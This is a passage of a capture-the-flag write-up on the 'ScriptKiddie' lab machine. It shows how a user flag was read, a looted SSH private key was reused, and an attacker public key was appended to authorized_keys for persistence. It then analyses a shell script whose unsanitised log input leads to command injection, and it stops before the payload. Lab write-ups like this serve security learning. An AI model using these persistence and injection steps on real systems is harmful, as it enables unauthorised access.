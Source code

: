```plaintext
drwx------ 2 kid  kid 4.0K Feb  3 07:40 .cache
drwx------ 4 kid  kid 4.0K Feb  3 11:49 .gnupg
drwxrwxr-x 3 kid  kid 4.0K Feb  3 07:40 .local
drwxr-xr-x 9 kid  kid 4.0K Feb  3 07:40 .msf4
-rw-r--r-- 1 kid  kid  807 Feb 25  2020 .profile
drwx------ 2 kid  kid 4.0K Feb  3 07:40 .ssh
-rw-r--r-- 1 kid  kid    0 Jan  5 11:10 .sudo_as_admin_successful
drwxrwxr-x 5 kid  kid 4.0K Feb  3 11:03 html
drwxrwxrwx 2 kid  kid 4.0K Feb  3 07:40 logs
drwxr-xr-x 3 kid  kid 4.0K Feb  3 11:48 snap
-r-------- 1 kid  kid   33 Jan  5 20:45 user.txt

$ cat ../user.txt # /home/kid/user.txt
4cbc14d5ba8c34df90ed21bdd840708a
```

## Privilege Escalation of Machine : from kid to pwn

Let's find if there is another user flag:

```plaintext
kid@scriptkiddie:~$ find / -name user.txt -type f 2>/dev/null
/home/kid/user.txt
```

No there isn't. But we can loot kid's private key to have a better shell.

```
$ chmod 600 id_rsa_kid
$ ssh kid@10.129.77.135 -i id_rsa_kid
```

Note: has been patched, there is no longer some ssh key but we can add ours:
`printf %s 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINDGLndVd+2+y7FE7nVTrMtBvPiLNTMgObVw8s7d9B8n cyfun@penarch' >> /home/kid/.ssh/authorized_keys`.

There is another user named `pwn` owning a script: `/home/pwn/scanlosers.sh`.

```bash
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```

We have write access to `/home/kid/logs/hackers`. We can see that our date and
IP is written to this file when we try to bypass the searchploit function:

`/home/kid/html/app.py`
